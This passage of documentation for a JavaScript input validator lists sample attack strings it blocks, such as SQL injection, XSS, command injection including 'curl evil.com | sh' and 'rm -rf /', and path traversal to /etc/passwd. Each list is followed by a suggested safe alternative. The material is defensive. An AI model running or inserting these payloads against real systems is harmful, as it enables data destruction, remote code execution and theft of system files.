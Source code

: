 ```javascript
  }
}
```

---

## Security Patterns Prevented

### 1. SQL Injection
```javascript
// BLOCKED
"admin' OR '1'='1"
"'; DROP TABLE users; --"
"1 UNION SELECT * FROM passwords"

// Safe alternative
const params = validator.prepareSQLParams([userInput]);
db.query('SELECT * FROM users WHERE id = ?', params);
```

### 2. XSS Attacks
```javascript
// BLOCKED
"<script>alert('XSS')</script>"
"<img src=x onerror=alert(1)>"
"javascript:void(0)"

// Safe alternative
const safe = validator.sanitize(input, ['escapeHtml']);
```

### 3. Command Injection
```javascript
// BLOCKED
"rm -rf /; echo 'pwned'"
"$(cat /etc/passwd)"
"`curl evil.com | sh`"

// Safe alternative
if (!validator.detectCommandInjection(cmd)) {
  executeInSandbox(cmd);
}
```

### 4. Path Traversal
```javascript
// BLOCKED
"../../../etc/passwd"
"..%2F..%2Fetc%2Fpasswd"
"//etc//passwd"

// Safe alternative
const validation = validator.validate(filepath, 'filepath');
if (validation.valid) {
  readFile(path.join(SAFE_DIR, filepath));
}
```
